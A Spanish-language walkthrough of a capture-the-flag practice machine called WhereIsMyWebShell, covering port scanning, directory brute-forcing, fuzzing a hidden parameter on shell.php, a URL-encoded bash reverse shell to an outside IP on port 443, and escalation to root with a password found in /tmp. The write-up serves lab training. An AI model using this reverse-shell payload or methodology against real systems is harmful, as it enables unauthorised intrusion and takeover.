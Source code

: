 - Tags: #WhereIsMyWebShell
---
[Maquina WereIsMyWebShell](https://mega.nz/file/Nf8giRID#1SuYshwSEJQnX2AxVhF_q03koiXDe4SI-p3UQhzhE30) ==> Enlace de desacarga al laboratorio.
```bash
7z x whereismywebshell.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh whereismywebshell.tar # Desplegamos el laboratorio
```

#### Fase Reconocimiento:
```bash
172.17.0.2 --> Direccion IP del target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para ver si tenemos conectividad con el target

wichSystem.py 172.17.0.2 # Detectamos que nos enfrentamos ante un sistema linux
172.17.0.2 (ttl -> 64): Linux
```


#### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos descubrimiento de puertos expuestos en el target
extractPorts allPorts # Parsemaos la informacion mas relevante del primer escaneo
nmap -sC -sV -p80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar el servicio y la version que corre detras del puerto.
```


#### Fase Reconocimiento Web:
**( 80/tcp open  http    Apache httpd 2.4.57 ((Debian)) )** ==> Tenemos un servicio web expuesto. y Por el **codeName** revisando en **launchPad** vemos que estamos ante una version de: **( debianMantic )**
```bash
whatweb http://172.17.0.2  # No nos reporta nada critico
nmap --script http-enum -p80 172.17.0.2 # No reporta nada critico
```

**( http://172.17.0.2/ )** ==> Tenemos esta web sobre aprendizaje de idiomas, Tendremos que buscar alguna posible vulnerabilida.
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,html,css,js,php.back,back,tar,zip,gzip,txt # Realizando descubrimiento de extensiones encontramos estos

# Posibles vectores de ataque.
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
```
---
**( http://172.17.0.2/warning.html )** ==> Ingresamos a esta solo encontramos una posible filtracion de informacion.
```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id" # Probamos una inyeccion en este archivo.

000115401:   200        2 L      4 W        66 Ch       "parameter"  #
```
---
**( http://172.17.0.2/shell.php?parameter=id )** ==> Tenemos ejecucion remota de comandos.

#### Fase Intrusion:
```bash
http://172.17.0.2/shell.php?parameter=bash%20-c%20%27exec%20bash%20-i%20%26%3E/dev/tcp/192.168.100.22/443%20%3C%261%27 # Accedemos al sistema
```

#### Fase Escalada Privilegios:
**( /tmp )** ==> Aqui encontramos un archivo oculto que contiene la posible password de **root**
```bash
-rw-r--r--  1 root root   21 Apr 12  2024 .secret.txt

password: contraseñaderoot123
```

```bash
su root # Colocamos la password: ( contraseñaderoot123 )
```